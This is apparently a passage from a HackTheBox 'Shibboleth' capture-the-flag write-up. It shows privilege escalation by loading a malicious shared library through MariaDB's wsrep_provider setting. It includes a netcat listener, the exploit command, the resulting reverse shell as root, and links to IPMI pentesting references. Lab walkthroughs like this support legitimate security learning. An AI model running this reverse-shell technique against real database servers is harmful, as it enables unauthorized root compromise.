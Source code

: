 Start a nc listener in your local machine:

```bash
➜  Shibboleth nc -lnvp 9999
listening on [any] 9999 ...

```

Execute the payload in the mysql shell as shown below

```bash
MariaDB [zabbix]> SET GLOBAL wsrep_provider="/tmp/root.so";
ERROR 2013 (HY000): Lost connection to MySQL server during query
MariaDB [zabbix]>
```

And we now have a shell as root. You can easily get the root flag in `/root` directory.

```bash
➜  nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.10.16.133] from (UNKNOWN) [10.10.11.124] 35846

id
uid=0(root) gid=0(root) groups=0(root)
bash -i
bash: cannot set terminal process group (852): Inappropriate ioctl for device
bash: no job control in this shell
root@shibboleth:/var/lib/mysql# cd /root
root@shibboleth:/root# ls -la
total 36
drwx------  5 root root 4096 Nov  8 12:58 .
drwxr-xr-x 19 root root 4096 Oct 16  2021 ..
lrwxrwxrwx  1 root root    9 Apr 27  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3115 May 25  2021 .bashrc
drwx------  2 root root 4096 May 12  2021 .cache
drwx------  4 root root 4096 Oct 21  2021 .config
lrwxrwxrwx  1 root root    9 Apr 28  2021 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   22 Apr 24  2021 .vimrc
-r--------  1 root root   33 Apr 22 05:29 root.txt
drwx------  2 root root 4096 Oct 18  2021 scripts
root@shibboleth:/root# wc root.txt
 1  1 33 root.txt
```

https://book.hacktricks.xyz/pentesting/623-udp-ipmi

https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/

file:///tmp/Shibboleth.pdf

https://github.com/c0rnf13ld/ipmiPwner

https://0xdf.gitlab.io/2022/04/02/htb-shibboleth.html -->
